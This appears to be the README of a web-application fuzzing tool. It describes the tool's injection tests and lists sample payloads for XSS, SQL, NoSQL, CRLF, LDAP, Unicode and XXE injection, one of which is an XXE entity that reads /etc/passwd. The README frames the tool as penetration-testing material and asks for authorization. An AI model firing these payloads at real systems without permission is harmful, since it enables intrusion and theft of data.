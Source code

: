 # Fuzzing and Injection Testing Tool

This tool is a Python-based script designed for testing various injection vulnerabilities in web applications. It includes modules for testing XSS, SQL injection, NoSQL injection, OS command injection, CRLF injection, LDAP injection, XPath injection, XSLT injection, XXE vulnerabilities, and more.

## Features
- **Cross-Site Scripting (XSS)**
- **SQL Injection**
- **NoSQL Injection**
- **OS Command Injection**
- **HTTP Header Injection**
- **LDAP Injection**
- **CRLF Injection**
- **Unicode Injection**
- **XPath Injection**
- **XSLT Injection**
- **XML External Entity (XXE) Injection**

## Requirements
- Python 3.x
- Libraries:
  - `requests`
  - `json`
  - `ldap3`
  - `lxml`

Install the required dependencies using:
```bash
pip install requests ldap3 lxml
```
But, in XXE_checker, external entity references is turned off,so Please change from false to true

## Usage
Run the script with the target URL as an argument:
```bash
python fuzzing.py <URL>
```

### Example
```bash
python fuzzing.py https://example.com
```

## Payloads
This tool uses predefined payloads for various injection types. Below are some examples:

### XSS Payloads
```html
<script>alert('XSS');</script>
<img src=x onerror=alert('XSS')>
```

### SQL Injection Payloads
```sql
' OR '1'='1
1' UNION SELECT NULL, NULL--
```

### NoSQL Injection Payloads
```json
{ "username": { "$ne": "" } }
{ "username": "admin", "password": { "$ne": "" } }
```

### CRLF Injection Payloads
```text
%0d%0aSet-Cookie: admin=true
%0d%0aContent-Length: 0%0d%0aInjected-Header: test
```

### LDAP Injection Payloads
```ldap
*)(&(objectClass=*))
*)|(&(objectCategory=person)(objectClass=user))
```

### Unicode Injection Payloads
```text
%u0027
%u003Cscript%u003Ealert(1)%u003C/script%u003E
```

### XXE Payload
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

## Functions

### `fuzz(url, params=None, payloads=None)`
Tests a given URL with payloads to detect general vulnerabilities.

### `test_nosql_injection(url)`
Tests for NoSQL injection vulnerabilities using JSON payloads.

### `test_csti(url)`
Tests for Server-Side Template Injection (CSTI).

### `test_header_injection(url, headers)`
Tests HTTP header injection by modifying headers with payloads.

### `test_ldap_injection(server, base_dn)`
Tests LDAP injection vulnerabilities.

### `test_json_injection(url, base_data)`
Tests JSON injection vulnerabilities by modifying JSON request bodies.

### `test_crlf_injection(url, param)`
Tests CRLF injection vulnerabilities by appending payloads to query parameters.

### `test_unicode_injection(url, param)`
Tests Unicode-based injection vulnerabilities.

### `scrape_xml(target_url)`
Fetches and parses XML data from the target URL.

### `test_xpath_injection(xml_data)`
Tests XPath injection vulnerabilities using XPath payloads.

### `test_xslt_injection(xml_data)`
Tests XSLT injection vulnerabilities using crafted XSLT payloads.

### `test_xxe(xml_data)`
Tests XXE vulnerabilities by processing XML with external entity references.

## Notes
- Ensure you have proper authorization before testing a target system.
- Use responsibly and only for ethical penetration testing.

## License
This tool is open-source and available under the MIT License. Feel free to use and modify it for your testing needs.

